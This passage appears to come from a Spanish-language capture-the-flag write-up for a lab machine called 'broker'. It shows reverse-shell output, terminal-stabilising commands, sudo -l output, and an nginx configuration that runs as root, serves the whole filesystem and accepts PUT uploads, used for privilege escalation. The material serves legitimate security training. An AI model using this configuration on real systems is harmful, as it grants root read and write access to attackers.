 ```bash
connect to [10.10.14.102] from (UNKNOWN) [10.10.11.243] 37968
id
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
```

> Q. Que usaurio (daemon) es el que corre ActiveMQ?   
> A. activemq  

----------------------

# Escalada de privilegios con nginx

Hacemos un tratamiento de la tty con los comandos 

```bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
activemq@broker:/opt/apache-activemq-5.15.15/bin$ ^Z
$: stty raw -echo; fg
reset xterm
activemq@broker:/opt/apache-activemq-5.15.15/bin$ stty rows 11 columns 119
activemq@broker:/opt/apache-activemq-5.15.15/bin$ export TERM=xterm
activemq@broker:/opt/apache-activemq-5.15.15/bin$ export SHELL=/bin/bash
activemq@broker:/opt/apache-activemq-5.15.15/bin$ ls
activemq@broker:/opt/apache-activemq-5.15.15/bin$ sudo -l
 Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty
 User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```
Como podemos ejecutar nginx como root, la manera de escalar privilegios será crear un servidor con altos privilegios del que abusar (nos permite leer y escribir archivos como si fueramos root)

Creamos un archivo `nginx` que codificamos en base64 para trasnferirlo a la máquina cómodamente

```bash
$: cat nginx
user root;
events { worker_connections 1024; }
http { server {
        listen 666; root /; autoindex on; dav_methods PUT; }}
$: cat nginx | base64 -w0 > nginx 
```
- `user root;` El proceso de nginx correrá bajo el usaurio root
- `events { worker_connections 1024; }` El servidor soportará un máximo de 1024 conexiones, es decir, clientes.
- `http { server {`: configuraciones de HTTP y el servidor
  - `listen 666;` se levantará el servidor por el puerto de la bestia
  - `root /;` montará todo el sistema desde la raiz
  - `autoindex on;`: muestra la lista de archivos (o sea la raiz) ya que no hay un `index.html`
  - `dav_methods PUT;` permite la subida de archivos con el método PUT
